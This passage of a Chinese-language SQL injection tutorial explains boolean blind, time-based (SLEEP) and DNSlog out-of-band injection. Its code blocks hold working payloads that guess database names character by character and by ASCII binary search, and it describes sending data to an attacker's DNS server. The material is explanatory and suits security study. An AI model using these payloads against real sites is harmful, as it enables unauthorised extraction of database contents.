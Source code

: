 ### （六）布尔注入

主要用于目标系统不直接返回查询结果、错误信息，或系统将查询的输出隐藏，但依然允许注入攻击。攻击者通过向数据库发送特定的布尔表达式，根据页面响应的变化，逐步推测出数据库的信息。

在布尔盲注中，攻击者会构造条件判断语句，并通过判断页面返回的结果是否发生变化，来确认条件是否为真或假。即使页面不显示查询结果，页面响应的不同状态也会告诉攻击者注入是否成功，从而可以逐字符地猜出数据库中的内容。

```sql
# 假设原始的SQL查询为：
SELECT name FROM users WHERE id = 1;

# 攻击者可以构造布尔盲注查询，通过逐步验证条件是否成立来提取信息。例如，输入1 AND 1=1--和1 AND 1=2--：
	•	如果输入1 AND 1=1--，页面正常显示数据，因为条件为真；
	•	如果输入1 AND 1=2--，页面无变化或显示异常，因为条件为假。

# 逐字符猜测信息：布尔盲注一般是通过逐字符猜测字段或表内容。
id=1 AND substring(database(), 1, 1) = 'a'--

# 二分法优化字符猜测：为了加速查询，可以使用ASCII值的二分法。例如，猜测数据库名称第一个字符的ASCII值是否大于100：
id=1 AND ascii(substring(database(), 1, 1)) > 100--
```

### （七）延时注入

主要用于目标系统不直接返回查询结果，也没有明显的响应差异，且错误信息也被屏蔽。延时注入通过引入延迟（延时函数）来判断查询的结果是否为真或假，从而逐步获取数据库的信息。

在延时注入中，攻击者通过构造查询语句，使数据库在满足某些条件时执行延时函数，从而增加请求的响应时间。攻击者可以通过观察页面响应的延迟来判断注入是否成功。如果页面响应出现明显延迟，表明条件为真，否则为假。基于这一逻辑，攻击者可以逐步推测出数据库内容。

```sql
# 假设原始SQL查询为：
SELECT name FROM users WHERE id = 1;
# 攻击者可能会使用以下输入：
1 AND IF(1=1, SLEEP(5), 0)--
# 如果数据库执行此语句并延迟5秒返回，表明条件为真；如果没有延迟，则条件为假。

# 逐字符猜测数据库名称：例如，判断数据库名称的第一个字符是否为a：
1 AND IF(substr(database(), 1, 1) = 'a', SLEEP(5), 0)--
# 二分法优化字符猜测：通过二分法可以更快速地猜出字符的ASCII值。
1 AND IF(ascii(substr(database(), 1, 1)) > 100, SLEEP(5), 0)--
```

### （八）DNSlog盲注

DNSlog盲住其实属于带外攻击（Out Of Band），什么是带外攻击？

很多场景下，无法看到攻击的回显，但是攻击行为确实生效了，通过[服务器](https://cloud.tencent.com/product/cvm/?from_column=20065&from=20065)以外的其它方式提取数据，包括不限于 HTTP(S) 请求、DNS请求、文件系统、电子邮件等。

DNSlog盲住是一种利用DNS请求来进行信息提取的SQL注入攻击方法，主要用于系统不回显查询结果，也不提供明显响应差异的场景。在这种情况下，攻击者通过让目标服务器发送DNS请求到自己的服务器，从而“回显”信息。这种方法广泛应用于SQL注入、命令注入、SSRF（服务端请求伪造）等无法直接获得响应的注入类型中。

DNSlog盲注的核心在于，攻击者构造特殊的DNS查询，将期望获得的数据库信息以子域名形式嵌入其中。当查询执行后，目标服务器会向攻击者控制的DNS服务器发送请求，以此传递数据库信息。

```
流程：
  1.	攻击者搭建一个DNSlog平台（例如dnslog.cn，或者攻击者自建DNS服务器）。
	2.	在SQL注入点构造含有DNS查询的SQL语句，并让目标服务器将查询结果通过DNS请求发送给攻击者的服务器。
	3.	攻击者在自己的DNSlog平台上接收到带有敏感信息的DNS请求，提取信息。
```
